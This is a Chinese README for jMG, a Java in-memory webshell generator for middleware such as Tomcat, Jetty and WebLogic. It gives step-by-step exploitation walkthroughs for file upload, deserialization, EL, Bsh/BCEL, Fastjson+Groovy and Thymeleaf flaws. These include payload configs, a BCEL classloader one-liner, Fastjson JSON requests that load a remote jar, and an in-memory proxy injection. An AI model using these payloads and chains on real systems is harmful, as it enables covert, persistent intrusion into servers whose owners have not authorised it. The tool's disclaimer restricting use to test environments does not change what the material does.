# java-memshell-generator

## 0x00 工具简介

jMG (Java Memshell Generator) 是一款支持高度自定义的 Java
内存马生成工具，提供常见中间件的内存马注入支持。不仅可作为 [woodpecker](https://github.com/woodpecker-framework/woodpecker-framework-release)
的插件使用，也可以作为独立的 GUI 工具进行使用。

**功能介绍**

- 支持的中间件和框架 (Tomcat/Resin/Jetty/WebLogic/WebSphere/Undertow/GlassFish/SpringBoot)
- 支持的网站管理工具 (Behinder/Godzilla/Custom)
- 支持的内存马类型 (Filter/Listener/Interceptor)
- 支持的输出格式 (BASE64/BCEL/CLASS/JS/JSP/JAR/BIGINTEGER)
- 支持的辅助模块 (探测目标中间件/序列化数据封装)

**模块划分**

- 内存马生成模块
    - Behinder、Godzilla
    - Custom
        - 注入自定义的Filter和Listener，常见场景：其他网站管理工具的服务端、内存代理、内存水坑等
- 辅助模块
    - ServerType Detector 中间件探测器
        - 探测中间件信息，常见场景：SpringBoot Fatjar
        - 提供 4 种方式判断目标中间件 (DFSEcho/Sleep/DNSLog/HTTPLog)
    - Ysoserial Payload Generator
        - 基于 ysoserial-for-woodpecker 对反序列化漏洞利用提供支持、提高漏洞利用效率

**参数说明**

| 参数名称    | 参数说明         | 其他                                                         |
| ----------- | ---------------- | ------------------------------------------------------------ |
| server_type | 选择中间件的类型 |                                                              |
| shell_type  | 选择内存马的类型 |                                                              |
| gadget_type | 选择利用链的类型 | 根据gadget自动完成对class的特殊处理，如继承类、实现接口、添加注解 |
| format_type | 输出格式         |                                                              |


**免责声明**
```
该工具仅适用于在授权环境/测试环境进行使用，请勿用于生产环境。
```

## 0x01 两种工作模式

#### Woodpecker 插件工作模式

- 从 github 仓库下载 jMG.jar 并放在 woodpecker 的 plugin 子目录下即可


#### GUI 图形化工作模式


## 0x02 中间件/框架覆盖情况

注：以下测试结果仅供参考

#### 中间件

|                 | listener           | filter          | 
| --------------- | -----------------  | --------------- |
| tomcat 9.0.39   | ✅                 | ✅               |                                  
| tomcat 8.5.53   | ✅                 | ✅               |                                  
| tomcat 7.0.59   | ✅                 | ✅               |                                 
| tomcat 6.0.48   | ✅                 | ✅               |                                 
| tomcat 5.5.36   | ✅                 | ✅               |                                  
| jetty 9.4.43    | ✅                 | ✅               |                              
| jetty 8.2.0     | ✅                 | ✅               |                               
| jetty 7.6.0     | ✅                 | ✅               |                               
| resin 4.0.66    | ✅                 | ✅               |                              
| resin 3.1.15    | ✅                 | ✅               |                                 
| weblogic 10.3.6 | ✅                 | ✅               |                                
| weblogic 12.1.3 | ✅                 | ✅               |                                
| weblogic 14.1.1 | ✅                 | ✅               |                                
| websphere 7.x   | ✅                 | ✅               |                                  
| websphere 8.5.5 | ✅                 | ✅               |                                  
| websphere 9.0.0 | ✅                 | ✅               |                                  
| undertow 1.4.26 | ✅                 | ✅               |                                 
| glassfish 5.0.0 | ✅                 | ✅               |                                 

#### 框架

|                 | interceptor       |  action           |    
| --------------- | ----------------- | -----------------  | 
| spring mvc      | ✅                |                    | 
| strust2          |                   |                    | 

## 0x03 常见漏洞场景

### 1) 文件上传漏洞 (JSP)

本地测试环境

- Tomcat v6.0.48
- JDK 8
- 文件上传

1、生成 jsp 文件




2、上传 jsp 到目标服务器，访问即可注入内存马，参考使用说明进行设置

- 设置请求头



3、成功连接



### 2) 反序列化漏洞 (readObject)

本地测试环境

- Tomcat v8.5.53
- JDK 8
- readObject 反序列化
- CB1 链

1、生成 class 文件

```
server_type=Tomcat
shell_type=Listener
# 继承 AbstractTranslet
gadget_type=JDK_AbstractTranslet
format_type=CLASS
output_path=/tmp/
```




2、使用 `辅助模块` 进行序列化数据封装

```
yso_gadget=CommonsBeanutils1
yso_cmd=class_file:/tmp/HttpClientUtil.class
format_type=BASE64
```



注：依赖 https://github.com/woodpecker-framework/ysoserial-for-woodpecker

3、利用后，参考使用说明进行连接



### 3) 表达式注入漏洞 (EL)

本地测试环境

- Tomcat v8.5.83
- JDK 8
- EL 表达式代码执行

1、生成 class文件

```
server_type=Tomcat
shell_type=Listener
gadget_type=NONE
format_type=CLASS
output_path=/tmp/
```



2、使用 `jexpr-encoder-utils` 进行封装

```
class_file=/tmp/SignatureUtils.class
```



注：依赖 https://github.com/woodpecker-appstore/jexpr-encoder-utils

3、利用后，参考使用说明进行连接


### 4) 代码执行漏洞 (Bsh)

本地测试环境

- Resin v4.0.40
- JDK 8
- Bsh 代码执行漏洞

1、选择 输出格式为 BCEL ，生成 paylaod

```
server_type=Resin
shell_type=Listener
gadget_type=NONE
format_type=BCEL
```



2、利用 BCEL 打内存马

```
new com.sun.org.apache.bcel.internal.util.ClassLoader().loadClass("BCEL编码后的paylaod").newInstance();
```

3、参考使用说明进行连接



### 5) 反序列化漏洞 (Fastjson)

- Fastjson + Groovy 场景下的内存马注入

本地测试环境

- Tomcat v8.5.83
- Fastjson v1.2.80 反序列化漏洞
- Groovy v3.0.8

1、选择 输出格式为 JAR，生成 payload

```
server_type=Tomcat
shell_type=Listener
# 选择利用链为 Fastjson+Groovy
gadget_type=FastjsonGroovy
format_type=JAR
output_path=/tmp/fj/
```



2、利用 groovy 利用链打内存马

第1个请求

```
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

第2个请求

```
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8888/NetworkUtils.jar"
    }
}
```



3、参考使用说明进行连接



### 6) 模板注入漏洞 (Thymeleaf)

本地演示环境信息

- SpringBoot v2.2.0.RELEASE
    - 内嵌 Jetty
- JDK 8
- Thymeleaf 模板注入漏洞

由于 springboot 可以自定义中间件，所以在 springboot 场景下注入内存马时需要考虑目标中间件可能不是常见的tomcat，有可能是jetty/undertow，也有可能是信创中间件。

这种情况一般有两种方案：

- 注入框架层面的内存马，比如 interceptor
- 先判断出目标中间件，再注入对应中间件的内存马

这个时候就需要上 `辅助模块 - ServerType Detector` 来探测目标中间件。

1、优先使用 `DFSEcho` 通过回显来判断目标中间件，失败后再考虑dnslog等其他选择

```
detect_way=DFSEcho
server_type=Tomcat
dnslog_domain=xxx.dnslog.cn
httplog_url=http://xxx.httplog.cn
sleep_seconds=5
gadget_type=NONE
format_type=BCEL
```



2、获取到目标中间件为 jetty



3、生成对应的 payload

```
server_type=Jetty
shell_type=Listener
gadget_type=NONE
format_type=BCEL
```



4、漏洞利用

- 第1次尝试 - 失败



算是很常见的问题，参考 shiro 的漏洞利用的解决方案，写个 loader 加载字节码再 defineclass 即可。

重新生成 payload



5、利用后参考使用说明进行连接即可



更多场景就见仁见智了。

## 0x04 常见利用场景

### 1) 内存代理

本地测试环境

- Tomcat v8.5.53
- JDK 8
- readObject 反序列化
- CB1 链

1、以 `suo5` 为例，编译 Suo5Filter.java

- https://github.com/zema1/suo5/blob/main/assets/Suo5Filter.java

2、选择对应的中间件，生成 payload

```
server_type=Tomcat
gadget_type=JDK_AbstractTranslet
format_type=CLASS
class_file_path=/tmp/Suo5Filter.class
output_path=/tmp/
```



3、使用 `辅助模块` 进行序列化数据封装



4、利用后连接测试，内存代理注入成功



## 0x05 致谢与引用


**Sponsor**
```text
奇安信观星实验室(SGLAB of Legendsec at Qi'anxin Group)
```


**Contributors**
```text
https://github.com/c0ny1
https://github.com/whwlsfb
```

**References**
```
https://github.com/woodpecker-framework/
https://github.com/woodpecker-appstore/jexpr-encoder-utils
https://github.com/feihong-cs/memShell
https://github.com/su18/MemoryShell
https://github.com/BeichenDream/GodzillaMemoryShellProject
```


## 0x06 其他说明

1. 技术交流
```
这也是开源目的之一，期待更多使用者的反馈，如果遇到 bug / 建议 / 实战场景需求，欢迎提 issue 交流。
```
2. 源代码开源
```
代码还需打磨，"革命"(1k stars)尚未成功 👀,后续会完全开源的。
```
3. 关于提问
```
希望提问前先翻一翻 issues。
```


